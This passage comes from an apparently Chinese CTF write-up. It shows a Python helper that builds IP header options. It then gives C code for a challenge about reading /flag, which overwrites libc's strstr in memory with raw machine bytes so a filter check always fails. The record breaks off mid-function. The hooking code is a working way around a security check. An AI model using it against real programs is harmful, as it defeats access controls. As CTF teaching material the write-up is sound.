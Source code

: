```python
        if hop >= 5:
            raise Exception('exceed the max length of ip header')
        length = chr(hop * 8 + 4)
        option_head = b'\x44' + length.encode() + b'\x05\x03'
        option = option_head
        for ip in specified_route:
            ip = ipa.v4_int_to_packed(int(ipa.IPv4Address(ip)))
            option = option + ip + b'\x00\x00\x00\x00'
        return option
    raise Exception('no such flag, flag must be set as 0,1,3 in timastamp option')


def streamid(byte_id):
    return b'\x88\x0E' + byte_id

```

参考文档 [链接](https://cloud.tencent.com/developer/article/1832077)

## 为什么要打开 /flag 😡

第一问 LD_PRELOAD, love!

从小问题目可知 要通过 `LD_PRELOAD` 劫持原本的函数让他返回正常值

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <errno.h>

char* my_strstr(const char* heystack, const char* needle) {
	return NULL;
}

uint8_t my_strstr_amd64[] = {
	0xf3, 0x0f, 0x1e, 0xfa,	
	0x55,
	0x48, 0x89, 0xe5,
	0x48, 0x89, 0x7d, 0xf8,
	0x48, 0x89, 0x75, 0xf0,
	0xb8, 0x00, 0x00, 0x00, 0x00,
	0x5d,
	0xc3
};

void hook_strstr() {
	void* target = (void*)strstr;
	void* page = (void*)( ((uintptr_t)target >> 12)<< 12);
	const int page_size = 4096;
	fprintf(stderr, "strstr at %p, assume page %p\n", target, page);
	int r1 = mprotect(page, 2*page_size, PROT_READ | PROT_WRITE);
	if (r1 != 0) {
		fprintf(stderr, "mprotect(): %d\n", errno);
		return;
	}
	memcpy(target, my_strstr_amd64, sizeof(my_strstr_amd64));
	mprotect(page, 2*page_size, PROT_EXEC | PROT_WRITE);
}

int main() {
	hook_strstr();
```